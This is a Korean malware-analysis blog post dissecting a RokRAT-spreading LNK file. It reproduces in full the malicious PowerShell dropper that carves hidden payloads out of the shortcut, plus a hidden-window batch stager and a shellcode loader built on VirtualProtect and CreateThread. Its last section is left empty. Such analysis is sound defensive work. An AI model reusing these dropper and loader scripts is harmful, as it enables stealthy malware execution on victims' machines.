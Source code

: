 ```yaml
---
title: RokRAT 악성코드를 유포하는 LNK 파일 분석
author: heogi
date: 2024-05-06
categories:
  - Malware
tags:
  - Malware
  - RokRAT
  - LNK
comments: true
---
```

## 개요
RokRAT 악성코드를 유포하는 LNK 파일에 대한 분석 보고서이다.

## 분석
파일 속성을 살펴보면 아래와 같이 CMD 스크립트가 삽입되어있다.

![](../assets/img/2024-05-06-RokRAT%20악성코드를%20유포하는%20LNK%20파일%20분석-20240506002542442.png)

실행하면 아래와 같은 커맨드가 CMD에서 실행되게 된다.

```powershell
"C:\Windows\SysWOW64\cmd.exe" /k for /f 
"tokens=*" %%a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %%a 
"$dirPath = Get-Location; 
if($dirPath -Match 'System32' -or $dirPath -Match 'Program Files') {
	$dirPath = '%temp%\AppData\Local\Temp'
}; 
$lnkPath = Get-ChildItem -Path $dirPath -Recurse *.lnk | where-object {$_.length -eq 0x0382A8AD} | Select-Object -ExpandProperty FullName;
$lnkFile=New-Object System.IO.FileStream($lnkPath, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read);
$lnkFile.Seek(0x00001090, [System.IO.SeekOrigin]::Begin);
$pdfFile=New-Object byte[] 0x004B4DD3;
$lnkFile.Read($pdfFile, 0, 0x004B4DD3);
$pdfPath = $lnkPath.replace('.lnk','.pdf');
sc $pdfPath $pdfFile -Encoding Byte;& $pdfPath;
$lnkFile.Seek(0x004B5E63,[System.IO.SeekOrigin]::Begin);
$exeFile=New-Object byte[] 0x000D9402;
$lnkFile.Read($exeFile, 0, 0x000D9402);
$exePath=$env:public+'\'+'panic.dat';
sc $exePath $exeFile -Encoding Byte;
$lnkFile.Seek(0x0058F265,[System.IO.SeekOrigin]::Begin);
$stringByte = New-Object byte[] 0x000005A9;
$lnkFile.Read($stringByte, 0, 0x000005A9);
$batStrPath = $env:temp+'\'+'para.dat';
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$string | Out-File -FilePath $batStrPath -Encoding ascii;$lnkFile.Seek(0x0058F80E,[System.IO.SeekOrigin]::Begin);
$batByte = New-Object byte[] 0x00000135;
$lnkFile.Read($batByte, 0, 0x00000135);
$executePath = $env:temp+'\'+'price.bat';
Write-Host $executePath;
Write-Host $batStrPath;
$bastString = [System.Text.Encoding]::UTF8.GetString($batByte);$bastString | Out-File -FilePath $executePath -Encoding ascii;& $executePath;
$lnkFile.Close();
remove-item -path $lnkPath -force;"&& exit
```

해당 스크립트에서 실행한 악성 파일의 내용을 참조하여
normal pdf 파일 및 공격에 사용되는 `panic.dat`, `para.dat`, `price.bat` 파일들을 생성한다.

스크립트 실행 이후 실행 흐름을 보면 아래와 같다
* `price.bat` > `para.dat` > `panic.dat`

먼저 price.bat 파일의 내용을 살펴보면 아래와 같다.

* price.bat
```powershell
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden "$stringPath=$env:temp+'\'+'para.dat';
$stringByte = Get-Content -path $stringPath -encoding byte;
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$scriptBlock = [scriptblock]::Create($string);&$scriptBlock;"
```
* price.bat sysmon event
  ![](../assets/img/Pasted%20image%2020240513235200.png)

powershell을 통해 `$stringPath` 변수를 `para.dat` 파일 경로로 설정하고 내용을 읽어 스크립트를 실행한다.
* para.dat
```powershell
$exePath=$env:public+'\'+'panic.dat';
$exeFile = Get-Content -path $exePath -encoding byte;
[Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
$k1123 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);
$a90234s = '[DllImport(' + $k1123 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';
$b = Add-Type -MemberDefinition $a90234s  -Name 'AAA' -PassThru;
$d3s9sdf = '[DllImport(' + $k1123 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';
$a90234sb = Add-Type -MemberDefinition $d3s9sdf -Name 'AAB' -PassThru;
$b3s9s03sfse = '[DllImport(' + $k1123 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';
$cake3sd23 = Add-Type -MemberDefinition $b3s9s03sfse  -Name 'BBB' -PassThru;
$dtts9s03sd23 = '[DllImport(' + $k1123 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
$byteCount = $exeFile.Length;
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);
$old = 0;
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old);
for($i = 0;$i -lt $byteCount;$i++) { [System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]); };
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);
$fried3sd23::WaitForSingleObject($handle, 500 * 1000);
```
* para.dat sysmon event
  ![](../assets/img/Pasted%20image%2020240518193254.png)

스크립트에서 사용되는 Windows API를 살펴보면 `GlobalAlloc()`,`CreateThread()`,`VirtualProtect()`,`WaitForSingleObject()` 가 있다.

각각 살펴보면
* GlobalAlloc()
	* 힙에서 지정된 바이트 수를 할당.
* CreateThread()
	* 호출 프로세스의 가상 주소 공간 내에서 실행할 스레드를 만든다.
* VirtualProtect()
	* 호출 프로세스의 가상 주소 공간에서 커밋된 페이지의 영역에 대한 보호를 변경.
* WaitForSingleObject()
	* 특정 커널 오브젝트의 신호상태를 기다리는데 사용. 주로 스레드 동기화, 프로세스 동기화 등에 사용.

	이후 `panic.dat` 파일은 BYTE DATA로 되어있다.
sysmon 이벤트를 통해 행위를 살펴보면 `csc.exe` 를 통해 `%temp%` 폴더의 `oj0csqan.cmdline` 파일을 실행한다.

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe" /noconfig /fullpaths @"C:\Users\heogi-windows-vm\AppData\Local\Temp\oj0csqan.cmdline
```

`oj0csqan.cmdline`에서는 추가로 `cvtres.exe` 를 통해 `CSCF5747BCEF23F4D6FB71BD4A9987A973.TMP` 파일이 추가로 실행되는 것으로 보인다.

```powershell
C:\Windows\Microsoft.NET\Framework\v4.0.30319\cvtres.exe /NOLOGO /READONLY /MACHINE:IX86 "/OUT:C:\Users\HEOGI-~1\AppData\Local\Temp\RES34A3.tmp" "c:\Users\heogi-windows-vm\AppData\Local\Temp\CSCF5747BCEF23F4D6FB71BD4A9987A973.TMP"
```

`csc.exe` 와 `cvtres.exe` 에 대해 간단하게 살펴보면

* `csc.exe`
  .NET에서 C# 코드를 컴파일하는데 사용되는 프로그램
* `cvtres.exe`
  Resource 파일을 COFF(Common Object File Format) 파일로 변환시켜주는 프로그램

`csc.exe` > `csvtres.exe` 의 과정이 총 3번이 진행되며, 실행 후 각각 `.cmdline`과 `.TMP` 파일은 삭제되는것으로 보인다.

해당 파일들을 확보하기 위하여 `%temp%` 폴더에 파일 삭제 권한을 없애고 다시 실행하여 파일을 확보하였다.

* `oj0csqan.cmdline`
```powershell

```
* `SCF5747BCEF23F4D6FB71BD4A9987A973.TMP`

## Reference
* https://asec.ahnlab.com/ko/64423/
* https://asec.ahnlab.com/ko/51628/
